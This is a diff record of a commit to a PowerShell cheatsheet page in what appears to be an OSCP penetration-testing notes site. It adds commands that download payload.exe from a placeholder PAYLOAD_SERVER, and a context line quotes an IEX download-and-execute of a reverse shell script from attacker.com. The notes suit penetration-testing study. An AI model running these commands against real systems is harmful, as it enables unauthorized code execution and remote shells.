

Before and after one commit to invae/oscp_field_manual, an MkDocs documentation site: the page built from docs/freedom_of_movement/powershell_cheatsheet.md, in a window 1280 px wide and 900 px high. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
refactoring powershell gadgets

````diff
--- a/docs/freedom_of_movement/powershell_cheatsheet.md
+++ b/docs/freedom_of_movement/powershell_cheatsheet.md
@@ -1,4 +1,24 @@
-# PS cheats
+# PowerShell Movements
+
+## base64 some bytes
+
+```powershell
+[convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("hello"))
+```
+- works for anything that returns the bytes object
+
+## Pull via HTTP
+
+```powershell
+Invoke-WebRequest -Uri http://PAYLOAD_SERVER:8000/ -OutFile ./payload.exe
+```
+
+```powershell
+iwr -Uri http://PAYLOAD_SERVER:8000/ -OutFile ./payload.exe
+```
+
+# Old Sheet
+## PS cheats
 - put paths in quotes, because windows is bad !
 - get-Service NAME
 - Measure-Object										; for counting outputs
@@ -64,7 +84,7 @@ IEX(New-Object WebClient).downloadString("http://attacker.com/rev.ps1")
 
 
 
-# CMD cheats
+## CMD cheats
 - type 		== cat
 - findstr 	== grep
 - dir /a    == ls -a
````
